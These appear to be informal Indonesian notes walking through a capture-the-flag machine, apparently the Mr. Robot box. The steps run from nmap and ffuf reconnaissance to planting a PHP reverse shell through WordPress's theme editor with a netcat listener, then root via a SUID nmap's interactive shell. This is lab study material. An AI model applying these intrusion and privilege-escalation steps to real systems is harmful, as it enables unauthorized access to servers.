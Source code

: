 1. nmap scan : sudo nmap -sC -sV -p- ip -oN scan
2. 80 kebuka -> fuzz -> ffuf -w word.txt -u ip/FUZZ -of md -o fuzz -fw 18
3. /robots.txt kebuka -> buka /dic atau apa gitu -> isinya file gede -> lupain
-> sama coba buka file .txt nya di dir -> ada key disitu
4. buka hasil fuzz -> /license -> inspect dia dibawah gitu ke spasi spasi terus di base64
5. ke /login login pake itu -> ke apperance -> di editor di archive -> paste shell php disitu
6. terus buka /wp-content/themes/namatema/archive.php -> jan lupa ganti ip port di shell nya  sama nyalain nc
7. masuk shell instal pty python biar enak -> ke /home/user -> cat semua disitu -> hash md5 
-> disitu key kedua paste aja
8. su ganti robot -> nyari root -> find / -perm -u=s -type f 2>/dev/null -> disitu ada bin nmap -> ke gtfo bins 
9. cari terus dapet, nmap --interactive -> masukin !sh shell nmap nya -> jadi root ke /root
10. finish
